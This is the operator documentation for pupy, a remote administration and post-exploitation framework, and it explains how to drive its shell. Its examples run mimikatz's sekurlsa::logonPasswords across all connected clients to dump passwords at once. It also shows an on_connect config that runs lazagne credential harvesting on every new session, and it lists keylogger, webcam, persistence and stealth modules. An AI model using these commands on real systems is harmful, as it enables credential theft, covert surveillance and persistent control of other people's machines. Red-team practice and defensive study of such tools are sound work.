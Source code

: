 ## List commands and modules
To list all commands and aliases use the following command:
```code
>> help
```

For a complete list of modules, run:
```code
>> help -M
```

## Find commands and modules help
First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by `-h` or `--help`.
```code
>> sessions -h
>> jobs -h
>> run -h
```

For example if you want to know how to use the pyexec module type :
```code
>> pyexec -h
usage: pyexec [-h] [--file <path>] [-c <code string>]

execute python code on a remote system 

optional arguments:
-h, --help            show this help message and exit
--file <path>         execute code from .py file
-c <code string>, --code <code string>
                      execute python oneliner code. ex : 'import
                      platform;print platform.uname()'
```

## Use the completion !
Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB
```code
>> run 
getsystem           load_package        msgbox              ps                  shell_exec          
download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec      
exit                keylogger           migrate             port_scan           pyshell             socks5proxy         
get_info            linux_pers          mimikatz            portfwd             screenshot          upload              
getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap          
>> load_package 
_sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3            
interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap             
linux_pers         portscan           pupwinutils        pupyutils          scapy   
```


```code
>> pyexec -
--code   --file   --help   -c       -h       
>> run pyexec --file /
/bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/         
/boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz      
/dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/         
```

## Escape your arguments
Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes.
```code
>> shell_exec 'tasklist /V'
```

If you send a Windows path, you need to double the backquotes or put everything between quotes.
```code
>> download 'C:\Windows\System32\cmd.exe'
```

or
```code
>> download C:\\Windows\\System32\\cmd.exe
```

## Create Aliases
Modules aliases can be defined in the `pupy.conf` file. If you define the following alias :
```code
shell=interactive_shell
```

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:
```code
killme = pyexec -c 'import os;os.kill(os.getpid(),9)'
```

## Jobs
Some modules like `socks5proxy` or `portfwd` automatically start as jobs, but all modules can be run as jobs when used with the `--bg` argument.
```code
>> run --bg shell_exec 'tasklist /V'
[%] job < shell_exec ['tasklist /V'] > started in background !
```

The jobs output can be retrieved at any moment by using the `jobs -p` command. From the `jobs` command you can also list jobs status and kill jobs.
```code
>> jobs 
usage: jobs [-h] [-k <job_id>] [-l] [-p <job_id>]

list or kill jobs

optional arguments:
-h, --help            show this help message and exit
-k <job_id>, --kill <job_id>
print the job current output before killing it
-l, --list            list jobs
-p <job_id>, --print-output <job_id>
						print a job output
```

Regular jobs can be set in Linux/Unix environments by running your `pupysh.py` script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed.
```code
screen -S 1674 -X stuff 'this is an example command'$(echo -ne '\015')
```

## Handle multiple clients connected
By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command
```code
>> run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit
```

- To interact with session 1
```code
>> sessions -i 1
```

- To interact with all windows 7 only:
```code
>> sessions -i 'platform:Windows release:7'
```

## Run commands after getting a new session
To run these modules for each new sessions, all commands should start by **any** (or by *) and should have different names.
```
[on_connect]
any_1 = beroot
any_2 = lazagne
```

Another way should be to include an entire category like so
```
[on_connect]
* = include:default_commands

[default_commands]
any_1 = beroot
any_2 = lazagne
```

## Run local commands
Start your command with a `!`
```
>> !ls
```

